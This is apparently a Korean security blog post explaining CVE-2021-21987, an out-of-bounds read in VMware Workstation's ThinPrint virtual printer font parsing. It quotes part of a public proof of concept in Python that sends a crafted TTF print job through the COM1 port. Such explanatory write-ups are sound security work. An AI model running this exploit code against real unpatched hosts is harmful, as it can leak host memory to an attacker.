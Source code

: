 ```yaml
---
title: "[하루한줄] CVE-2021-21987: VMWare Workstation 가상 프린터의 OOB read 취약점"
author: L0ch
tags: [L0ch, vmware, out-of-bounds, cve, oob read]
categories: [1day1line]
date: 2021-05-25 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[CVE-2021-21987-vmware-out-of-bounds read vulnerability via Cortado ThinPrint](https://github.com/houjingyi233/my-bugs/tree/main/CVE-2021-21987-vmware-out-of-bounds%20read%20vulnerability%20via%20Cortado%20ThinPrint)

## Target

- VMware Workstation 16.1.2 이전
- Horizon Client 5.5.2 이전

## Explain
VMWare Workstation 및 Windows용 Horizon Client에 설치된 Windows 10의 가상 프린터 구성요소에서 발견된 범위를 벗어난 읽기(Out-of-Bound Read) 취약점의 PoC가 공개되었습니다.

VMWare의 가상 프린터인 ThinPrint 구성 요소는 게스트 Windows에서 문서 및 이미지를 파싱해 호스트 OS에 연결된 프린터로 출력할 수 있는 기능을 지원합니다. 취약점은 `rundll32.exe`에서 로드되는 `TPView.dll`이 폰트 확장자 `TrueType Font(TTF)`를 파싱하는 코드에 존재하며 TTF 파일의 검증이 충분히 이루어지지 않아 해커의 악성 TTF 파일을 파싱하는 과정에서 메모리를 읽어 정보 유출로 이어질 수 있습니다. 아래는 COM1 포트의 가상 프린터를 활성화하고 악성 TTF 파일을 전달하는 PoC의 일부입니다.

```python
class TPVM:
SERIAL_PORT=b'\\\\\\\\.\\\\COM1'
    def __init__(self):
        self.hPort=windll.kernel32.CreateFileA(self.SERIAL_PORT,
                                               0xc0000000, # GENERIC_READ | GENERIC_WRITE
                                               3,          # FILE_SHARE_READ | FILE_SHARE_WRITE
                                               None,
                                               3,          # OPEN_EXISTING
                                               0,
                                               None)
        if (self.hPort & 0xffffffff) == 0xffffffff:
            raise Exception('the serial port could not be opened (0x%08x)'%(GetLastError()))

        if not windll.kernel32.SetupComm(self.hPort, 0x20000, 0x84d0):
            raise WinError()
...
t = TPVM()
...
f = open("poc.ttf", "rb")
font_data = f.read()
f.close()

emri_engine_font = struct.pack('<IIIII', 0x2, 8 + FONT_COUNT * 4 + len(font_data) + 4, 0, FONT_COUNT, len(font_data))
emri_engine_font += binascii.a2b_hex('00000000')
emri_engine_font += font_data

# Put it all together.
data_plaintext = devmode + emfspool_hdr + emf + emri_metafile_ext + emri_engine_font
data_compressed = zlib.compress(data_plaintext, 9)
print_command = struct.pack('<H', 0) + struct.pack('<II', len(data_compressed), len(data_plaintext)) + data_compressed

# Send the printing command.
t.do_data(print_command)
t.do_command(0x8002)
t.close()
```

해당 취약점은 지난 2016년 Google Project Zero가 발견한 [CVE-2016-7083](https://bugs.chromium.org/p/project-zero/issues/detail?id=849) 과 유사한 것으로 알려졌습니다.

